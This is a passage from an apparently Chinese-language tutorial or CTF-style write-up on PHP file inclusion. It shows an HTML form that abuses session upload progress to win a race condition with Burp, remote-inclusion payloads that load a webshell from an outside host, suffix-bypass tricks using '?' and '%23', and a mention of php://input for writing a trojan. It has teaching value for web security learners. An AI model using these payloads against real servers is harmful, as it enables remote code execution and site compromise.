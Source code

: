 这样就可以得到flag了,除此之外，还可以使用burp来进行条件竞争，例如利用下面的html上传代码上传一个文件

```html
<!DOCTYPE html>
<html>
<body>
<form action="http://localhost/H3rmesk1t/demo.php" method="POST" enctype="multipart/form-data">
<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="H3rmesk1t" />
<input type="file" name="file" />
<input type="submit" value="submit" />
</form>
</body>
</html>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210527210427952.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

再根据代码抓一个get的包，请求/tmp/sess_flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210527210518638.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

同时进行爆破，payload设置成null payloads就可以一直爆破

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210527210557830.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
## 远程包含

利用前提：
- allow_url_fopen = On 是否允许打开远程文件
- allow_url_include = On 是否允许include/require远程文件

### 无任何限制

代码没有任何限制，直接在公网上存放恶意webshell即可，然后通过包含即可执行恶意payload
`?filename=http://xxxx/php.txt`

### 限制包含文件的后缀名

例如：`<?php include($_GET['filename'] . ".no"); ?>`


- 第一种方法：?绕过    `?filename=http://xxxx/php.txt?`
- 第二种方法：#绕过    `?filename=http://xxxx/php.txt%23`

# PHP伪协议

简单理解便是PHP自己提供的一套协议，可以适用于自己的语言，其他语言则不适用，这便是伪协议，与之相对的例如HTTP\HTTPS便不是伪协议，因为大部分系统\软件都能够进行识别

## 常见的伪协议

可以看下之间[详解PHP伪协议](https://blog.csdn.net/LYJ20010728/article/details/110312276)的内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210527211634446.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
如果遇到的环境有写入权限，可以使用php://input伪协议来写入木马
